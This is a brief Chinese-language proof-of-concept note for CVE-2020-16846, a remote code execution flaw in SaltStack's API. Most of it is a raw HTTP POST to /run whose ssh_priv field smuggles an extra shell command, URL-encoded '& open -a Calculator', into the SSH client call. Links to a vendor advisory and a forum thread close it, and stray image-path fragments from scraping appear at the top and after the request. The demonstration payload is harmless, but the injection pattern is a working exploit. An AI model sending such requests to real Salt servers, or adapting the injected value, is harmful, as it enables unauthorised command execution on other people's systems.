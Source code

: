 # CVE-2020-16846 SaltStack远程执行代码漏洞


```
PoC：

POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0
Accept: application/x-yaml
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=pyn3rd&fun=a&roster=qwe&ssh_priv=aaa%26%20open%20-a%20Calculator
```

media/16097302977098/16097303099460.jpg)


ref：

https://www.saltstack.com/blog/on-november-3-2020-saltstack-publicly-disclosed-three-new-cves/

https://forum.ywhack.com/thread-114703-1-4.html